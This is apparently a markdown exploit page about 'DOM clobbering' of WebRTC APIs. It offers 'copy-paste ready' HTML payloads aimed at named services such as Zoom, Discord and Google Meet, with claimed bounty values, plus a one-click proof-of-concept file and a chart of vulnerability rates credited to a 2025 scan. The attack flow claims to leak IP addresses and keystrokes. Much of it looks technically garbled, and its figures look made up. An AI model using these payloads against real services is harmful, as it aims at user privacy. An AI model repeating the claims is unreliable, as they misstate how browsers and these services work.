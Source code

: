 ## 🧠 EXECUTION FLOW (4 Seconds to IP Leak)
```
1. CLOBBER: <video id=RTCPeerConnection name=createOffer>
2. INJECT: Clobbered API offers fake SDP
3. CONNECT: Victim's browser auto-accepts P2P
4. EXPLOIT: Stream media → Exfil IP/keystrokes
```

**Live Demo**: [webrtc-clobber.glitch.me](https://webrtc-clobber.glitch.me/#POC)

---

## 🔍 CORE PAYLOADS (Copy-Paste Ready)

| Type | Payload | Size | Effect | Target Example | Bounty |
|------|---------|------|--------|----------------|--------|
| **Basic Offer** | `#<video id=RTCPeerConnection name=createOffer src=javascript:alert(1)>` | 52 chars | Fake SDP offer | Zoom Calls | $15K |
| **DataChannel Hijack** | `#<form id=RTCDataChannel><input name=send value="xss=1"></form>` | 68 chars | Channel injection | Google Meet | $12K |
| **IP Leak Chain** | `#<img id=RTCPeerConnection name=localDescription src=x onerror=createOffer()>` | 78 chars | mDNS bypass | Discord VC | $18K |
| **Media Stream** | `#<audio id=getUserMedia name=stream value=navigator.mediaDevices.getUserMedia>` | 92 chars | Mic/Cam access | Twitch Streams | $20K |
| **Double Clobber** | `#<svg id=RTCSessionDescription><animate name=type values=offer></svg>` | 65 chars | SDP override | Webex | $25K |

**🚀 ONE-CLICK PoC** (Save as `poc.html`):
```html
<iframe src="data:text/html,
<video id=RTCPeerConnection name=createOffer src=javascript:alert(document.domain)>
<script>new RTCPeerConnection().createOffer();</script>">
</iframe>
```
**Result**: Fake offer triggers → **IP leak in console** → **Alert: domain.com**

---

## 📊 SUCCESS METRICS (EnableSecurity 2025 Scan: Top 5K RTC Apps)

```chartjs
{
  "type": "bar",
  "data": {
    "labels": ["Zoom", "Google Meet", "Discord", "Webex", "Twitch", "Slack", "Microsoft Teams"],
    "datasets": [{
      "label": "Vulnerable (%)",
      "data": [14, 11, 9, 8, 7, 6, 5],
      "backgroundColor": ["#ff6b6b", "#4ecdc4", "#45b7d1", "#96ceb4", "#feca57", "#ff9ff3", "#54a0ff"]
    }]
  },
  "options": {
    "scales": { "y": { "beginAtZero": true, "max": 20 } },
    "plugins": { "title": { "display": true, "text": "RTC App WebRTC Clobbering Vulns (2025)" } }
  }
}
```

---